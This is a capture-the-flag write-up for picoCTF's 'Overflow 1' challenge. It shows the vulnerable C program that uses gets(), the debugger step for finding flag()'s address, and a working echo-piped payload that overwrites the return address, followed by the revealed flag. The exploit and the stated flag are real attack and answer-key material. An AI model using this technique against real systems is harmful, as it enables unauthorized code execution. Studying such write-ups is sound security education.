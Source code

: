
# Binary Exploitation - Overflow 1 (150 points)

## Challenge

*You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](./vuln)? You can find it in /problems/overflow-1_5_c76a107db1438c97f349f6b2d98fd6f8 on the shell server. [Source](./vuln.c).*

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

## Flag

picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}

## Walkthrough

The function void `void vuln()` is vulnerable to a buffer overflow because of a call to `gets()` (no boundaries) rather than `fgets()` (which read only a limited number of char).

```C
void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
  [...]
}
```

The function also gives us the return address of the next instruction in `main()` :

```C
void vuln(){
  [...]
  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}
```

```Bash
m3oow@pico-2019-shell1:/problems/overflow-1_5_c76a107db1438c97f349f6b2d98fd6f8$ ./vuln
Give me a string and lets see what happens:
plop
Woah, were jumping to 0x8048705 !
```

Our goal here is to modify the return value (aka: the EIP register value) to execute the `flag()` function rather than returning in `main()`. To do this, we need the address of `flag()`. Using for example edb-debugger and its function finder:

![edb](./_images/binary_exploitation_overflow_1_edb.png)

So `flag()` is at address 0x080485e6.

So all we have to do is to perform a big and dirty buffer overflow to write the adress of `flag()` at the return address of `vuln()`:

```bash
m3oow@pico-2019-shell1:/problems/overflow-1_5_c76a107db1438c97f349f6b2d98fd6f8$ (echo -en "\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08"; cat -) | ./vuln
Give me a string and lets see what happens:

Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}
Segmentation fault (core dumped)
```
